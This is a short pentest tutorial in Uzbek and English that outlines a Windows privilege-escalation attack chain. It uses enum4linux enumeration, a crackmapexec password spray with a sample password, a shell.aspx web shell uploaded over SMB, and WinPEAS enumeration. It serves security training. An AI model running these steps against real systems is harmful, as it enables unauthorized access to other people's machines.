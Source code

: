 **🔗 2️⃣ Windows privilege escalation zanjiri (Misol flow)**
🎯 Example Chain (real-case scenario):
enum4linux -a orqali foydalanuvchi va ochiq shares topasiz:

User found: backup_user
Share found: \\target\Public (read/write)
backup_user ni password spraying bilan sinaysiz:

crackmapexec smb <IP> -u backup_user -p 'Password1!'
Valid credentials:

[+] Login success with backup_user : Password1!
SMB orqali ochiq share’ga fayl upload:

smbclient //target/Public -U backup_user
put shell.aspx
Web shell orqali Low Privilege RCE olasiz.

WinPEAS orqali local enumeration




